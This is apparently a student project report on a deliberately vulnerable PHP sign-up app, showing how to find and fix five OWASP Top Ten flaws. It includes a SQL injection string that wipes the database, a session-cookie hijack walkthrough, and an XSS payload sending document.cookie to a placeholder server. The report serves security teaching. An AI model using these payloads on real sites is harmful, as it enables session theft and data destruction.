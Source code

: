 # The Report

This project is done with PHP in a LAMP environment.<br> 
The requirements:

1. Windows, OS X or Linux as the host
2. OWASP ZAP
3. Firefox with the Advanced Cookie Manager add-on
4. VirtualBox
5. Debian as a virtual machine

See https://github.com/j0ly/firstproject/blob/master/README.md for installation instructions.

There are more problems with this code besides those which I have mentioned and provided a fix for here below. And regarding the suggested fixes, I know that there are many things that could be done to further improve the security. But I had to draw the line somewhere. The task was to have at least 5 OWASP Top Ten vulnerabilies, and to provide a fix for them, which I think I have done.


The OWASP vulnerabilities:

## A1-Injection

The content of the database can be deleted using SQL injection.

### How to identify 
1. Sign up some users to the event. Check from the Admin page. 
2. Then go to the Cancel page and enter: ```' OR '1'='1```. 
3. All the sign-ups are now gone, as you can see from the Admin page!    

### How to fix
Add this after line 12 in delete.php;

```$ticket = mysqli_real_escape_string($conn, $ticket);```

## A2-Broken Authentication and Session Management
The cookie-session-id, which is used for authentication, is sent over an unencrypted connection.<br>

### How to identify
You can get access to the Admin pages using an eavesdropped cookie-session-id like this:

1. Log in to the Admin pages, look who have signed up, and click the "home" link.
2. You are now back at the starting page, which doesn't use SSL.
3. But with OWASP ZAP you can now see that the session-cookie is still in use (see [README.md](README.md)). This is bad if someone would have the possibility to eavesdrop.
4. Copy the cookie-session-id!
  * And if you were using the Firefox browser for this, restart it before the next step...
4. Go to the Admin login-page with Firefox, but don’t log in! 
5. Open “Advanced Cookie Manager” and paste the cookie-session-id into the "Value" box (see [README.md](README.md)). 
  * Note: You have to  delete the old one first, to be able to save the change.
6. Open the Event X start page, click the "Admin" link, and you’re in without entering credentials!

### How to fix
Force HTTPS for the whole server;

1. In /etc/apache2/sites-available/000-default.conf, add this line after the "DocumentRoot" line (modify "yourserver" to match the IP of your server); 
  * ``` Redirect permanent / https://yourserver/ ``` 
2. Restart Apache with this command; ``` apachectl restart ```

## A3-Cross-Site Scripting (XSS)
The XSS code can be entered on the SignUp page, and executed on the Admin page when listing the sign-ups. 
### How to identify
1. Enter this code into the address field on the SignUp page;

   ```<img src=x onerror=this.src='http://yourserver/?c='+document.cookie>```

2. Log in to the Admin pages and take a look at the sign-ups. The session-id should now be written to the Apache logs of “yourserver”. 
But you can also test with code like this, in any of the fields on the SignUp page; 
```<body onload=alert('hello')>```
You will then receive the "hello" greeting, when looking at the sign-ups.

### How to fix
In done.php you can find these lines;
```
$fname = $_POST["name"];
$faddress = $_POST["address"];
$creditcard = $_POST["creditcard"];
```
Replace them with these lines;
```
$fname = clean($_POST["name"]);
$faddress = clean($_POST["address"]);
$creditcard = clean($_POST["creditcard"]);

function clean($data) {
  $data = trim($data);
  $data = stripslashes($data);
  $data = htmlspecialchars($data);
  return $data;
}
```

## A6-Sensitive Data Exposure
Credit card numbers are sent in cleartext with POST, over an unencrypted connection.

### How to identify

1. Go to the SignUp page and fill in the requested information, including a (imaginary) credit card number.
2. Press Submit, and capture the credit card number with OWASP ZAP (see [README.md](README.md)).

### How to fix: 
Force HTTPS for the whole server (see the A2-fix)! 

## A7-Missing Function Level Access Control
The database credentials are stored in an easy to guess plaintext config file, inside the web-root, and is lacking access control.
### How to identify
Modify “yourserver” in this link to match your installation; http://yourserver/firstproject/admin/config.ini.<br> 
Then open this link with your browser, and you should see the credentials.

### How to fix
Deny access to the config.ini file. 

There is already a .htaccess file in the admin folder that should do that, but Apache does not by default enable the use of .htaccess files. To enable, do this:

  Open /etc/apache2/apache2.conf in an editor, and find these lines;
  ```
  <Directory /var/www/>
        Options Indexes FollowSymLinks
        AllowOverride None
        Require all granted
  </Directory>
  ```
  Change “AllowOverride None” to “AllowOverride All”. Run the command “apachectl restart”, and try to open the link again.
